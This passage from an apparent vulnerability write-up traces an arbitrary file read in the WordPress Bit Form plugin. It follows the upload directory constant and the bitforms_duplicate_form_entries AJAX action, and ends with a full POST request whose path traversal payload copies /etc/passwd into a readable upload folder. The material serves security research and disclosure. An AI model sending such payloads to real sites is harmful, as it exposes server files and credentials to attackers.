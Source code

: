 Hmm... What's that `BITFORMS_UPLOAD_DIR` constant value? If we search for that, we'll find this at `/wp-content/plugins/bit-form/includes/loader.php`:

```php
$uploadDirInfo = wp_upload_dir();
$wpUploadbaseDir = $uploadDirInfo['basedir'];
[...]
$bitformsUploadBaseDir = $wpUploadbaseDir . DIRECTORY_SEPARATOR . 'bitforms';
[...]
define('BITFORMS_UPLOAD_DIR', $bitformsUploadBaseDir . DIRECTORY_SEPARATOR . 'uploads');
```

With that said, constant `BITFORMS_UPLOAD_DIR`'s value is `/var/www/html/wp-content/uploads/bitforms/uploads`.

Now, in this case, we can use path traversal payload in our source `entries` to **copy any files into directory `/var/www/html/wp-content/uploads/bitforms/uploads/<formID>/<duplicatedEntryId>`**, and then we can read that copied file!

Let's figure out how this method is being used! Indeed, just like the previous one, this method is called from class `AdminAjax` method `duplicateFormEntry`, which is used by AJAX action `bitforms_duplicate_form_entries`:

```php
class AdminAjax
{
  public function register()
  {
    [...]
    add_action('wp_ajax_bitforms_duplicate_form_entries', [$this, 'duplicateFormEntry']);
    [...]
  }
  public function duplicateFormEntry()
  {
    if (wp_verify_nonce(sanitize_text_field($_REQUEST['_ajax_nonce']), 'bitforms_save')) {
      $inputJSON = file_get_contents('php://input');
      $input = json_decode($inputJSON);
      $formHandler = FormHandler::getInstance();
      $status = $formHandler->admin->duplicateFormEntry($_REQUEST, $input);
      [...]
    } else {
      [...]
    }
  }
```

Let's try this!

Since we already created a new form during testing the arbitrary file deletion in method `deleteBlukFormEntries`, we'll just send the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_duplicate_form_entries&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 94
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"formID":"1","entries":["../../../../../../../../../../../../../etc/passwd"]}
```
